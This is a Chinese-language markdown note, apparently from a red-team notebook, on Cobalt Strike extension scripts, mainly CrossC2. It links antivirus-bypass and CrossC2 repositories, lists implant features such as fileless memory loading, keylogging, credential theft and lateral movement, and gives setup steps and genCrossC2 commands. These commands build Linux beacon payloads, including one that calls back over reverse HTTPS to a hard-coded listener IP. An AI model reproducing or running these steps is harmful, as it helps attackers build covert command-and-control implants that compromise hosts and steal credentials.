## CobaltStrike扩展脚本
- CobaltStrike>Script Manager>Load, 选择.cna扩展文件加载
- https://github.com/XZVB12/taowu-cobalt-strike-en
- https://github.com/cseroad/bypassAV
- https://github.com/gloxec/CrossC2
- CS脚本官方文档 https://hstechdocs.helpsystems.com/manuals/cobaltstrike/current/userguide/content/topics/welcome_main.htm

### CS上线Linux主机 -- CrossC2
https://github.com/gloxec/CrossC2
- 本项目是可以生成*Linux*/*MacOS*的`CobaltStrike beacon payload` 的跨平台项目
- 支持无文件落地从内存中加载执行 *动态库*或*可执行文件*
- 灵活自定义执行文件的数据返回类型, 端口扫描, 屏幕截图, 键盘记录, 口离开那个凭证等
- 自定义通信协议
- 支持横向移动
- *Android* & *iPhone*支持
- 支持CS对其它平台(操作系统)的安全评估

#### CrossC2安装和配置
https://github.com/gloxec/CrossC2/releases
1. 下载工具脚本: `CrossC2.cna`, `genCrossC2`, `CrossC2Kit`
2. `CrossC2.cna`配置: 
	1. `$CC2_PATH`路径为下载的`genCrossC2`真实路径
	2. `$CC2_BIN`为使用的`genCrossC2`程序名
3. 创建Listener并拷贝Keys文件
	1. `windows/beacon_https/reverse_https`
	2. 复制teamserver目录下的`.cobaltstrike.beacon_keys`到本地文件目录
4. 添加CNA扩展脚本, 打开`CrossC2Kit`文件夹添加`CrossC2Kit_Loader.cna`等功能

#### 生成Beacon
- GUI生成: `Create reverse HTTPS Listener`, 选择Beacon key文件, 选择协议端口和对应系统和架构等参数, 在Event Logs时间日志窗口可以看到木马生成命令
- Cli生成: 
```shell
./genCrossC2.Win.exe <Listener-IP> <Listener-Port> .cobaltstrike.beacon_keys null Linux x64 cc2-test
# 正向
./genCrossC2.Linux 127.0.0.1 4444 .cobaltstrike.beacon_keys null Linux-bind x64 cc
# 反向
./genCrossC2.Linux 139.155.49.43 444 .cobaltstrike.beacon_keys null Linux x64 c444
```
- 命令解释：
	- genCrossC2.Linux: CS服务端系统
	- 139.155.49.43：CS https_listener 监听器IP
	- 444：CS https_listener 监听器端口
	- .cobaltstrike.beacon_keys：CS服务端Beacon key文件
	- null：不选择动态库
	- Linux：运行平台为Linux（'MacOS' / 'Linux' / 'MacOS-bind' / 'Linux-bind'）
	- x64：64位系统（'x86' / 'x64'）
	- c444：payload文件名